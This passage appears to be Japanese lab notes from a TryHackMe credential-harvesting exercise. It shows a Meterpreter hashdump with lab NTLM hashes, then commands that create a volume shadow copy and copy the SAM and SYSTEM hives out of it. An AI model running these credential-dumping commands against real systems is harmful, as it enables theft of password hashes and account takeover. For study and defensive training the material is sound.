 ```shell
# hashdump
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

#### 2. ボリュームシャドウコピーを使う方法

管理者として cmd.exe を実行

```shell
# WMIC を使用してボリューム C のシャドウ コピーを作成する
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

```shell
# 利用可能なシャドウボリュームの一覧表示
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1 のパスで C ドライブのシャドウコピーボリュームが作られたことを示している。

```shell
# シャドウボリュームからSAMおよびSYSTEMファイルをコピーする
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
# systemは復号キー
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
